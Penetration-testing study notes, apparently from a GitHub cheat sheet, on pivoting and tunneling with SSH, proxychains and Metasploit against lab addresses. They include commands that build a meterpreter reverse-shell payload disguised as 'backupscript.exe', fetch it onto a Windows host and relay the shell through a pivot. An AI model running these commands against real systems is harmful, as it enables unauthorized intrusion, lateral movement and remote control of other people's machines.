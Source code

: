# Pivoting, Tunneling, and Port Forwarding
- [Dynamic Port Forwarding with SSH and SOCKS Tunneling](#dynamic-port-forwarding-with-ssh-and-socks-tunneling)
    - [SSH Local Port Forwarding](#ssh-local-port-forwarding)
    - [Dynamic port forwarding with SSH over SOCKS](#dynamic-port-forwarding-with-ssh-over-socks)
- [Remote/Reverse Port Forwarding with SSH](#remotereverse-port-forwarding-with-ssh)
- [Meterpreter Tunneling & Port Forwarding](#meterpreter-tunneling--port-forwarding)
    - [Port Forwarding](#port-forwarding)
    - [Meterpreter Reverse Port Forwarding](#meterpreter-reverse-port-forwarding)

![Pivoting](/images/PivotingandTunnelingVisualized.gif)

> [!NOTE]
> Lateral Movement helps us spread wide within a network, elevating our privileges, while Pivoting allows us to delve deeper into the networks accessing previously unreachable environments.

> [!TIP]
> Use [Draw.io](https://app.diagrams.net/) to build a visual of the network environment


## Dynamic Port Forwarding with SSH and SOCKS Tunneling
### SSH Local Port Forwarding
```bash
# Local port forwarding
ssh -L LOCAL_PORT:SERVER:PORT HOST@TARGET_IP
ssh -L 1234:localhost:3306 ubuntu@10.129.202.64

# Forwarding multiple ports
ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64

# Confirming Port Forward with Netstat
netstat -antp
```
- The `-L` command tells the SSH client to request the SSH server to forward all the data we send via the port 1234 to localhost:3306 on the Ubuntu server. 

### Dynamic port forwarding with SSH over SOCKS 
- Using Dynamic port forwarding we can send packets to a remote network via a pivot host.
- SOCKS proxies are currently of two types: SOCKS4 and SOCKS5. SOCKS4 doesn't provide any authentication and UDP support, whereas SOCKS5 does provide that.
- We do this by starting a SOCKS listener on our local host (personal attack host or Pwnbox) and then configure SSH to forward that traffic via SSH to the network after connecting to the target host.

- Using proxychains, we can hide the IP address of the requesting host as well since the receiving host will only see the IP of the pivot host.

- To inform proxychains that we must use specific port, we must modify the proxychains configuration file located at `/etc/proxychains.conf`.
![SSH Tunneling over SOCKS Proxy](/images/SSH%20tunneling%20over%20socks%20proxy.png)

```bash
# Enabling Dynamic Port Forwarding with SSH
ssh -D 9050 -C -N -f ubuntu@10.129.202.64

# -C — compress all data;
# -N — do not execute remote command or shell;
# -f — run in background.

# We add socks5 127.0.0.1 9050 to the last line of /etc/proxychains.conf file
sudo nano /etc/proxychains.conf
socks5 127.0.0.1 9050

# Using Nmap with Proxychains
proxychains nmap -v -sn 172.16.5.1-200

# We can also use other tools with proxychains
proxychains msfconsole
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

```

> [!NOTE]
> This part of packing all your Nmap data using proxychains and forwarding it to a remote server is called SOCKS tunneling.


> [!WARNING]
> One more important note to remember here is that we can only perform a full TCP connect scan over proxychains.

## Remote/Reverse Port Forwarding with SSH
![Remote Port Forwarding](/images/Remote%20port%20forwarding.png)
- **Steps**
1. Creating a Windows Payload with msfvenom (LPORT is listener port of Pivot host): `msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080`

2. Configuring & Starting the multi/handler: `set payload windows/x64/meterpreter/reverse_https` , `set lhost 0.0.0.0` , `set lport 8000`

3. Transferring Payload to Pivot Host: `scp backupscript.exe ubuntu@<ipAddressofTarget>:~/`

4. Starting Python3 Webserver on Pivot Host: `python3 -m http.server 8123`

5. Downloading Payload from Windows Target: `PS C:\Windows\system32> Invoke-WebRequest -Uri "http://<InternalPivotHostIP>:8123/backupscript.exe" -OutFile "C:\backupscript.exe"`

6. We will use SSH remote port forwarding to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000: `ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN`

## Meterpreter Tunneling & Port Forwarding
- **Steps**
1. Scanning Internal Network: 
- Assume that we have a meterpreter, we would want to perform a ping sweep on the internal network. We can do that using Meterpreter with the ping_sweep module: `meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23`.

> [!TIP]
> We could also perform a ping sweep using a for loop directly on a target pivot host that will ping any device in the network range we specify: 
> - On linux pivot host: `for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done`
> - On windows pivot host Using CMD: `for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"`
> - On windows pivot host Using powershell: `1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}`

> [!NOTE]
> It is possible that a ping sweep may not result in successful replies on the first attempt, especially when communicating across networks. This can be caused by the time it takes for a host to build it's arp cache. In these cases, it is good to attempt our ping sweep at least twice to ensure the arp cache gets built.

2. Dynamic Port Forwarding: Instead of using SSH for port forwarding, we can use Metasploit's post-exploitation routing module socks_proxy to configure a local proxy on our attack host.We will configure the SOCKS proxy for SOCKS version 4a. This SOCKS configuration will start a listener on port 9050 and route all the traffic received via our Meterpreter session. 
    1. Configuring MSF's SOCKS Proxy:    
    ```bash
    msf6 > use auxiliary/server/socks_proxy
    msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
    SRVPORT => 9050
    msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
    SRVHOST => 0.0.0.0
    msf6 auxiliary(server/socks_proxy) > set version 4a
    version => 4a
    msf6 auxiliary(server/socks_proxy) > run
    ```
    2. Confirming Proxy Server is Running: `msf6 auxiliary(server/socks_proxy) > jobs`
    3. After initiating the SOCKS server, we will configure proxychains to route traffic generated by other tools like Nmap through our pivot on the compromised Ubuntu host, edit /etc/proxychains.conf: `socks5 127.0.0.1 9050`
    4. We need to tell our socks_proxy module to route all the traffic via our Meterpreter session. We can use the post/multi/manage/autoroute module from Metasploit to add routes for the internal subnet and then route all our proxychains traffic.
    ```bash
    msf6 > use post/multi/manage/autoroute

    msf6 post(multi/manage/autoroute) > set SESSION 1
    SESSION => 1
    msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
    SUBNET => 172.16.5.0
    msf6 post(multi/manage/autoroute) > run
    ```
    5. Listing Active Routes with AutoRoute: `meterpreter > run autoroute -p`

> [!TIP]
> It is also possible to add routes with autoroute by running autoroute from the Meterpreter session: `meterpreter > run autoroute -s 172.16.5.0/23`

    
3. Testing Proxy & Routing Functionality: `proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn`    

### Port Forwarding
- Using Meterpreter's portfwd module. 
    - `meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19`.This command requests the Meterpreter session to start a listener on our attack host's local port (-l) 3300 and forward all the packets to the remote (-r) Windows server 172.16.5.19 on 3389 port (-p) via our Meterpreter session.

### Meterpreter Reverse Port Forwarding
- We will start a listener on a new port on our attack host for Windows and request the Ubuntu server to forward all requests received to the Ubuntu server on port 1234 to our listener on port 8081.
- **Steps**
    1. This command forwards all connections on port 1234 running on the Ubuntu server to our attack host on local port (-l) 8081. We will also configure our listener to listen on port 8081 for a Windows shell: `meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18`

    2. Then, we background the meterpreter, use multi handler and listen on 8081 port and we can now create a reverse shell payload that will send a connection back to our Ubuntu server on `172.16.5.129:1234` when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to `attack host's ip:8081` that we configured.
